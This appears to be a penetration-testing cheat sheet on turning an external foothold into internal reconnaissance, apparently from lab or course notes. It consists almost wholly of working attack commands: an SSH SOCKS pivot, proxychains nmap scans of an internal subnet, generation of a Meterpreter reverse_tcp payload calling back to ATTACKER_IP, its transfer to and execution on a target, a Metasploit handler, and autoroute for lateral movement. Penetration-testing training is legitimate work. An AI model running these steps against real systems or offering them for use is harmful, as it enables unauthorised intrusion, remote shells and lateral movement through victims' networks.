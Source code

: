# Internal Information Gathering

## 🎯 Overview

**Internal Information Gathering** transforms **external foothold** into **comprehensive internal reconnaissance**. Establish **SSH/Metasploit pivoting**, discover **live hosts**, enumerate **Active Directory infrastructure**, and exploit **misconfigured services** for credential harvesting and lateral movement preparation.

## 🔄 Pivoting Setup Methods

### 🔑 SSH Dynamic Port Forwarding
```bash
# Establish SSH SOCKS proxy
ssh -D 8081 -i dmz01_key root@TARGET_IP

# Verify tunnel establishment
netstat -antp | grep 8081
# Output: tcp 0 0 127.0.0.1:8081 0.0.0.0:* LISTEN 122808/ssh

# ProxyChains configuration
echo "socks4 127.0.0.1 8081" >> /etc/proxychains.conf

# Test connectivity
proxychains nmap -sT -p 21,22,80,8080 172.16.8.120
```

### 🎯 Metasploit Autoroute Alternative
```bash
# 1. Generate Meterpreter payload
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=443 -f elf > shell.elf

# 2. Transfer to target
scp -i dmz01_key shell.elf root@TARGET_IP:/tmp

# 3. Setup multi/handler
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
set LPORT 443
exploit

# 4. Execute payload on target
chmod +x shell.elf && ./shell.elf

# 5. Setup autoroute
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.8.0
run
```
